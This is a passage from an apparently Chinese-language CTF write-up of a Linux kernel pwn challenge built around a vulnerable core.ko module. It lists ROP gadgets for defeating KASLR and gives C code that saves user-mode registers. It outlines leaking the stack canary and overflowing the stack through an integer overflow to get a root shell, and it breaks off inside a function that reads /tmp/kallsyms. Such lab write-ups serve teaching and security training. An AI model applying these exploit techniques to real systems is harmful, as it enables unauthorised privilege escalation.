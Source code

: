 从中咱们可以看到其中即我们所需要的gadget(实际上就是linux内核镜像所使用的汇编代码)，此时我们再通过linux自带的grep进行搜索，个人认为还是比较好用的，用`ropgadget`或者是`ropper`来说都可以，看各位师傅的喜好来.具体使用情况如下：
![]([img]http://imgsrc.baidu.com/super/pic/item/b8389b504fc2d562427a9f2fa21190ef77c66c86.jpg[/img])
以此手法获得两个主要函数的地址后，此刻若咱们在exp中获得这两个函数的实际地址，然后将两者相减即可得到KASLR的偏移地址。
自此咱们继续搜索别的gadget，我们此刻需要的gadget共有如下几个：
```
swapgs; popfq;  ret;
mov rdi, rax;  call rdx; 
pop rdx; ret;  
pop rdi; ret;   
pop rcx; ret; 
iretq
```

师傅们可以用上述方法自行寻找.

### 2. 自行构造返回状态
虽然咱们的**提权**是在内核态当中，但我们最终还是需要返回用户态来得到一个root权限的shell，所以当我们进行栈溢出rop之后还需要利用swapgs等保存在内核栈上的寄存器值返回到应得的位置，但是如何保证返回的时候不出错呢，对，那就只能在调用内核态的时候将即将保存的正确的寄存器值先保存在咱们自己申请的值里面，这样就方便咱们在rop链结尾填入他们实现返回不报错。既然涉及到了保存值，那我们就需要内嵌汇编代码来实现此功能，代码如下，这也可以视为一个通用代码；
```
size_t user_cs, user_ss,user_rflags,user_sp;

//int fd = 0;        // file pointer of process 'core'

void saveStatus(){
  __asm__("mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          );
  puts("\033[34m\033[1m Status has been saved . \033[0m");
}

```
大伙学到了内核pwn，那汇编功底自然不必说，我就不解释这段代码功能了。

### 3. 攻击思路
现在开始咱们的攻击思路思考，在上面介绍各个函数的时候我也稍微讲了点。我们所做的事主要如下：
> 1. 利用ioctl中的选项2.修改off为0x40
> 
> 2. 利用core_read,也就是ioctl中的选项1,可将局部变量v5的off偏移地址打印,经过调试可发现这里即为canary
>  
> 3. 当咱们打印了canary,现在即可进行栈溢出攻击了,但是溢出哪个栈呢,我们发现ioctl的第三个选项中调用的函数 `core_copy_func`,会将bss段上的name输入在栈上,输入的字节数取决于咱们传入的数字,并且此时他又整型溢出漏洞,好,就决定冤大头是他了
> 4. core.ko 所实现的系统调用write可以发现其中可以将我们传入的值写到bss段中的name上面,天助我也,所以咱们就可以在上面适当的构造rop链进行栈溢出了
   
大伙看到这里是不是觉得有点奇怪,欸,刚才不是说要泄露地址码,这兄弟是不是讲错了,就这?大家不要慌,我这正要讲解,从上面的init脚本中我们可以看到这一句:
```
cat /proc/kallsyms > /tmp/kallsyms
```
其中 /proc/kallsyms中包含了内核中所有用到的符号表,而处于用户态的我们是不能访问的,所以出题人贴心的将他输出到了/tmp/kallsyms中,这就使得我们在用户态也依然可以访问了,所以我们还得在exp中写一个文件遍历的功能,当然这对于学过系统编程的同学并不在话下,(可是我上这课在划水....)
这里贴出代码给大伙先看看
```
void get_function_address(){
        FILE* sym_table = fopen("/tmp/kallsyms", "r");        // including all address of kernel functions,just like the user model running address.
        if(sym_table == NULL){
                printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
                exit(1);
        }
        size_t addr = 0;
        char type[0x10];
```
